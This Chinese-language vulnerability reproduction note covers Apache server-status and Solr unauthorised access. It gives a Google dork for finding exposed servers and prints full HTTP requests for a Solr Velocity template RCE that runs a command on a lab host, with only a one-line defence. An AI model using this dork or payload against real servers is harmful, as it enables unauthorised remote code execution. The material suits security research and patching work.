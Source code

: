 - Apache server-status未授权访问
**Google dork:**
```
inurl:"server-status" intitle:"Apache Status" intext:"Apache Server Status for"
```
![](https://pbs.twimg.com/media/EGV_x-3XYAAuV0n.png)
**漏洞利用**
访问`http://example.com/server-status`
https://github.com/mazen160/server-status_PWN

- Apache Solr未授权访问

访问`http://example.com/solr/#/`



# [漏洞复现] Apache Solr RCE


### 漏洞详情
原作者S00pY 666！如果知道Core路径，通过POST数据包修改配置文件，可远程执行命令。测试使用solr-8.2.0最新版本，目测影响全版本。

**利用前提**
solr存在未授权访问。

### 漏洞复现
访问Core Admin得到应用路径，漏洞复现踩坑：如果Add Core报错，将`/solr-8.2.0/server/solr/configsets/_default`下的conf文件夹复制到`new_core`文件夹下即可。

开启params.resource.loader.enabled

```
POST /solr/new_core/config HTTP/1.1
Host: 10.211.55.13:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

命令执行

```
GET /solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.211.55.13:8983
```

### 防御
禁止访问solr。
**参考**
https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt